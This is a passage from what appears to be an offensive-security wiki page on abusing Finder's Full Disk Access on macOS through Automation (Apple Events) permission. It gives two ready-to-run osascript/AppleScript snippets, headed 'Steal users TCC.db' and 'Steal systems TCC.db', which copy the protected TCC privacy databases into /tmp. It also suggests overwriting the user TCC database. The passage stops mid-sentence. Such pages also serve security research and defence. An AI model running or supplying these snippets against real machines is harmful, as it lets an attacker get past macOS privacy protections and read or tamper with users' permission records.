 **Finder** is an application that **always has FDA** (even if it doesn't appear in the UI), so if you have **Automation** privileges over it, you can abuse its privileges to **make it do some actions**.\
In this case your app would need the permission **`kTCCServiceAppleEvents`** over **`com.apple.Finder`**.

{{#tabs}}
{{#tab name="Steal users TCC.db"}}

```applescript
# This AppleScript will copy the system TCC database into /tmp
osascript<<EOD
tell application "Finder"
    set homeFolder to path to home folder as string
    set sourceFile to (homeFolder & "Library:Application Support:com.apple.TCC:TCC.db") as alias
    set targetFolder to POSIX file "/tmp" as alias
    duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```

{{#endtab}}

{{#tab name="Steal systems TCC.db"}}

```applescript
osascript<<EOD
tell application "Finder"
    set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
    set targetFolder to POSIX file "/tmp" as alias
    duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```

{{#endtab}}
{{#endtabs}}

You could abuse this to **write your own user TCC database**.

> [!WARNING]
> With this permission you will be able to **ask finder to access TCC restricted folders** and give you the files, but afaik you **won't be able to make Finder execute arbitrary code** to fully abuse his FDA access.
>
> Therefore, you won't be able to abuse the full FDA habilities.

This is the TCC prompt to get Automation privileges over Finder:
